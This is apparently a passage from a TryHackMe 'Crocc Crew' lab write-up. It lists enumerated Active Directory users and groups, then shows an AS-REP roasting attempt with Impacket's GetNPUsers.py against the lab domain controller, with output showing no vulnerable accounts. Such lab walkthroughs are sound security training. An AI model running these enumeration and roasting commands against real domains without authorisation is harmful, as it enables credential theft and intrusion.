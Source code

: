 ```bash
1115: COOCTUS\mark (SidTypeUser)
1116: COOCTUS\Jeff (SidTypeUser)
1117: COOCTUS\Spooks (SidTypeUser)
1118: COOCTUS\RDP-Users (SidTypeGroup)
1119: COOCTUS\Steve (SidTypeUser)
1120: COOCTUS\Howard (SidTypeUser)
1121: COOCTUS\admCroccCrew (SidTypeUser)
1122: COOCTUS\Fawaz (SidTypeUser)
1123: COOCTUS\karen (SidTypeUser)
1124: COOCTUS\cryillic (SidTypeUser)
1125: COOCTUS\yumeko (SidTypeUser)
1126: COOCTUS\pars (SidTypeUser)
1127: COOCTUS\kevin (SidTypeUser)
1128: COOCTUS\jon (SidTypeUser)
1129: COOCTUS\Varg (SidTypeUser)
1130: COOCTUS\evan (SidTypeUser)
1131: COOCTUS\Ben (SidTypeUser)
1132: COOCTUS\David (SidTypeUser)
1134: COOCTUS\password-reset (SidTypeUser)
1135: COOCTUS\PC-Joiner (SidTypeGroup)
1136: COOCTUS\VPN Access (SidTypeGroup)
1137: COOCTUS\Server Users (SidTypeGroup)
1138: COOCTUS\Restrict DC Login (SidTypeGroup)
1139: COOCTUS\East Coast (SidTypeGroup)
1140: COOCTUS\West Coast (SidTypeGroup)
1141: COOCTUS\File Server Access (SidTypeGroup)
1142: COOCTUS\File Server Admins (SidTypeGroup)
1143: COOCTUS\MSSQL Admins (SidTypeGroup)
1144: COOCTUS\MSSQL Access (SidTypeGroup)
```
{: .nolineno}
{: .nolineno}

I sorted this list and save them in a file <mark style="background: #ABF7F7A6;">users.txt</mark> and looked for some TGT tickets with <mark style="background: #ABF7F7A6;">as-rep-roasting</mark> method through <mark style="background: #FF5582A6;">GetNPUsers.py</mark> Tool from impackets but noluck . 

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/crocc_crew]
└─$ /opt/Tools/impacket/examples/GetNPUsers.py -no-pass 'cooctus.corp/' -dc-ip 10.10.182.217 -request -usersfile users.txt
Impacket v0.11.0 - Copyright 2023 Fortra


[-] User Administrator does not have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User DC$ does not have UF_DONT_REQUIRE_PREAUTH set
[-] User Visitor does not have UF_DONT_REQUIRE_PREAUTH set
[-] User mark does not have UF_DONT_REQUIRE_PREAUTH set
[-] User Jeff does not have UF_DONT_REQUIRE_PREAUTH set
[-] User Spooks does not have UF_DONT_REQUIRE_PREAUTH set
[-] User Steve does not have UF_DONT_REQUIRE_PREAUTH set
[-] User Howard does not have UF_DONT_REQUIRE_PREAUTH set
[-] User admCroccCrew does not have UF_DONT_REQUIRE_PREAUTH set
[-] User Fawaz does not have UF_DONT_REQUIRE_PREAUTH set
[-] User karen does not have UF_DONT_REQUIRE_PREAUTH set
[-] User cryillic does not have UF_DONT_REQUIRE_PREAUTH set
[-] User yumeko does not have UF_DONT_REQUIRE_PREAUTH set
[-] User pars does not have UF_DONT_REQUIRE_PREAUTH set
[-] User kevin does not have UF_DONT_REQUIRE_PREAUTH set
[-] User jon does not have UF_DONT_REQUIRE_PREAUTH set
[-] User Varg does not have UF_DONT_REQUIRE_PREAUTH set
[-] User evan does not have UF_DONT_REQUIRE_PREAUTH set
```